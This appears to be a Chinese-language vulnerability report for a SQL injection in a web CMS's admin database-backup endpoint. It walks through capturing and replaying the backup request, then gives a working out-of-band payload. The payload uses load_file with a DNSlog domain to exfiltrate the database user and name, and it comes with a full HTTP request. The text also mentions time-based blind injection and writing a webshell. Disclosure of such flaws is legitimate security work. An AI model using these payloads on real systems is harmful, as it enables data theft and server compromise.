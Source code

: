 ```sql
```

1.打开网址并进入管理页面
![image](https://user-images.githubusercontent.com/54017627/168496885-ea67becc-e174-4f20-a941-da2ceba57714.png)

2.通过文件路径和函数，我们知道触发注入的函数就是数据库备份函数。后台打开-网站建设-数据库-备份
![image](https://user-images.githubusercontent.com/54017627/168496894-d0f0ee7c-2441-48ab-ba91-0f1d6eec7b48.png)

3.选择要备份的表。这里我们选择一个小表来加快速度，然后设置浏览器代理来捕抓数据包
![image](https://user-images.githubusercontent.com/54017627/168496899-67d0adb2-12ff-43b0-88f7-810fd0818c09.png)

4.备份后，您可以获得两个数据包。一种是初始化，即获取要备份的表名，并在本地创建新的锁定文件
![image](https://user-images.githubusercontent.com/54017627/168496907-ca851f34-7a26-4673-8cbe-93c5f70e67d0.png)

5.修改并重放数据包。由于这里的SQL语句是显示创建表'$table'，我们可以使用'来关闭语句，同时用多行执行SQL语句，最后用#注释掉后续内容。由于无法使用错误报告，因此无法使用错误报告注入。然后我们可以尝试使用时间盲注入，dnslog out注入并使用网站的绝对路径编写webshell。

## 5.1.dnslog
条件是需要 root 权限，secure_file_Priv为空，则 POC 如下所示

```sql
swd_address`;select load_file(concat('\\\\',(select user()),'.x6m87hw0.eyes.sh\\abc'));#
```

![image](https://user-images.githubusercontent.com/54017627/168496662-8e1a3e24-5cb9-4be5-89a9-bf536d0a9a9c.png)

![image](https://user-images.githubusercontent.com/54017627/168496920-138da552-97f4-4c11-a3c4-906601ccdd31.png)

![image](https://user-images.githubusercontent.com/54017627/168496931-f3d4b02b-c3f3-45f6-87c9-d201b59877e2.png)

获取数据库成功

![image](https://user-images.githubusercontent.com/54017627/168496944-02b94169-4862-44f6-85e5-f11c8c02503e.png)

poc:
```sql
POST /admin/db/backup.html HTTP/1.1
Host: local.rapoo.top
Content-Length: 141
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://local.rapoo.top
Referer: http://local.rapoo.top/admin/db/backup.html
Accept-Language: zh-CN,zh;q=0.9
Cookie: switchHistory=website%2Fdb; UM_distinctid=1803c2602eb210-05a24410a265d9-1734337f-1fa400-1803c2602ec659; bjui_theme=purple; XDEBUG_SESSION=PHPSTORM; CNZZDATA1618465=cnzz_eid%3D555001816-1650273840-%26ntime%3D1650346840; advanced-backend=p78poo8n9hl27mks17hf2vlgll; _csrf-backend=ad56049615f6ba364b544685b88bf7aef7baeca4c875a1af3133961cccb509bfa%3A2%3A%7Bi%3A0%3Bs%3A13%3A%22_csrf-backend%22%3Bi%3A1%3Bs%3A32%3A%22y-o088Wj2bIB0WpJf8fRaiplRoDM9rDq%22%3B%7D; goodsBrowseHistory=c28cb2b6cbbb56efe1b54af4962a1184b1ff4c069830e85977639ad55216dd9ba%3A2%3A%7Bi%3A0%3Bs%3A18%3A%22goodsBrowseHistory%22%3Bi%3A1%3Bs%3A2%3A%2226%22%3B%7D; advanced-frontend=bhikf56hlq22mu402s14in6d6e; _csrf-frontend=ec2187396433327b12bd8538772fae89ba08815dcf64c739e37d57d5d43e1c8fa%3A2%3A%7Bi%3A0%3Bs%3A14%3A%22_csrf-frontend%22%3Bi%3A1%3Bs%3A32%3A%22As8fd2CCmnh4ExTtegRpqbV4C9r-f4oO%22%3B%7D
Connection: close

tables%5B%5D=swd_address`;select load_file(concat('\\\\',(select database()),'.x6m87hw0.eyes.sh\\abc'));#&vol_size=100&backup_name=20220425_5
```
